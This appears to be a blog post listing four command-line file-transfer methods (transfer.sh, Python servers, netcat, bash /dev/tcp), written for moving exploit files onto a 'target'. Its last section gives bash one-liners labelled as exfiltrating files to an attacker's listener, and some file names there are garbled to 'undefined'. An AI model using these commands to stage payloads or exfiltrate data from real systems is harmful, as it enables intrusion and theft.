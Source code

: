 ```yaml
---
title: 4 Ways To Quickly Transfer Files
publishedOn: Febuary 5th, 2023
slug: transfer-files
excerpt: I want to cover a few ways to easily transfer files inside the command line. My personal go to is a Python server and curl/wget request on the client side. I also really like curls --upload-file utility because it will actually present a QR code, sharable page, and a specific URL you can now use on the client side. Netcat's transfer is very easy as well but we will see all the different options in this blog article. I will list them in order of how I favor them. 
readingTime: 5 mins
---
```


# Transfering Files
----------------------------------

# **#1 Curl's Transfer.sh Utility**
My favorite is Curl's Transfer.sh Utility. It's relatively new but for me has worked everywhere. It will upload it to a specific transfer.sh server. I like it because you do not need to mess with checking IP addresses, Ngrok, being in or out of network, etc. It works 100% of the time, regardless of any of that. It will give you a sharable web page, QR code, and as soon as you finish the upload a link for that. You can also just use that link to make a curl request and download the file, which is what I typically do. 

The following command uploads the file to the transfer.sh servers...

`curl --upload-file ./file.txt https://transfer.sh/Myfile.txt`

***This will give a URL that looks something like this...***

`https://transfer.sh/A3a3KL/Myfile.txt`

To download the file on the client side, enter the following command...

`curl https://transfer.sh/<CodeFromAbove>/Myfile.txt -o Myfile.txt`

***-o for output, can be named anything but the rest needs to match.***
----------------------------------

# **#2 Python**
Python is the next easiest for me, just out of familiarity. Python3 specifically but both are easy.

*Anything written in python2 will almost always break in python3. So we also look at how to transfer a file using python3.*

----------------------------------
## **Python3**

In the case of python3, enter the following command to start a simple python server...

`python3 -m http.server 8080`

***^ Make sure you are in the correct directoy prior to starting server.***

To download the file on the target, enter the following command...

`wget http://192.168.43.177:8080/exploit.php`

----------------------------------
## **Python2**
----------
Switch to the directory where the file that you want to transfer exists. Start a simple python server. Enter the following command...

`python -m SimpleHTTPServer 8080`

Now go to the machine where you want to transfer the file. Use the following command to download the file...

`wget http://192.168.43.177:8080/stuxnet.php`

----------------------------------
# #3 Netcat
Netcat has always been an easy option for trasnfering and just about anything else.

Netcat is a powerful utility to transfer files from any remote machine to a local device. It may not always be installed. You can check whether it exists or not by entering...

`which nc`
`which netcat`

Make a netcat server with the following command...

`nc -nlvp 8080 < exploit.php`

Now go to the target machine and enter the following to download the file...

`nc -nv 192.168.43.177 8080 > exploit.php`

----------------------------------
# #4 Bash Upload
**I've never really used this method. Transfer.sh, Python, and Netcat work perfectly so I've never needed this. I have used similiar bash commands for reverse shells.**
### **Upload file over HTTP (require HTTP service running on the attacker machine)below...**

`bash -c 'echo -e "POST / HTTP/0.9 $(<undefined)" > /dev/tcp/127.0.0.1/6969'`
----------------------------
### **Exfiltrate file over TCP# Listen with Netcat on port 6969 + output redirection below...**

`bash -c 'cat undefined > /dev/tcp/<IPADDRESS>/6969'`

----------------------------
## Bash Download on Client Side

`bash -c 'cat < /dev/tcp/<IPADDRESS>/6969 > undefined'`